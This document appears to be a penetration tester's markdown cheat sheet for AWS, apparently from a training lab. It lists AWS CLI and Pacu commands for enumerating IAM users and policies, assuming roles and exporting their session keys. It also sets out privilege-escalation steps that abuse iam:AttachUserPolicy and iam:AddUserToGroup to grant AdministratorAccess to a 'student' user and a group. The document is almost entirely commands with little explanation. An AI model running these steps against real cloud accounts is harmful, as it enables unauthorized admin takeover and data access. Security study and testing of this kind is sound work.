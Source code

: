 ## Create IAM role
`aws iam create-role --role-name a4 --assume-role-policy-document file://assume-role-doc.json`  

## Enumerate users (pacu)
`run iam__enum_users --role-name a4 --account-id <account ID from $aws__enum_account> --word-list /home/kali/names.txt`  

## Assume Role
`aws sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name ad_logging`  
### Export secrets
```
export AWS_ACCESS_KEY_ID=<>
export AWS_SECRET_ACCESS_KEY=<>
export AWS_SESSION_TOKEN=<>
//unset
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```  
### Confirm assumed role  
`aws sts get-caller-identity`  
### Retrieve attached policies for assumed role  
`aws iam list-attached-role-policies --role-name ad-LoggingRole`  
### From here we can list buckets and their objects with readonlyaccess  

## List policies attached to user  
`aws iam list-attached-user-policies --user-name <user>`  
### Check policy details for the a policy  
`aws iam get-policy --policy-arn arn:aws:iam::aws:policy/<policy>`  
### View policy details for versions  
`aws iam get-policy-version --policy-arn arn:aws:iam::225489834925:policy/Service --version-id v1` 

## List inline policies attached to users  
`aws iam list-user-policies --user-name student`  
### Enum inline policies
`aws iam get-user-policy --user-name student --policy-name <inline policy>`  
`aws iam list-role-policies --role-name Adder`  
`aws iam get-role-policy --role-name Adder --policy-name AddUser`  
 
## Abuse `iam:AttachUserPolicy` being present  
`aws iam list-policies | grep 'AdministratorAccess'`  
`aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-user-policies --user-name student`  
`aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-group-policies --group-name Printers`  

## Abuse `iam:AddUserToGroup` being present
`aws iam add-user-to-group --group-name Printers --user-name student`  
`aws iam list-groups-for-user --user-name student`  
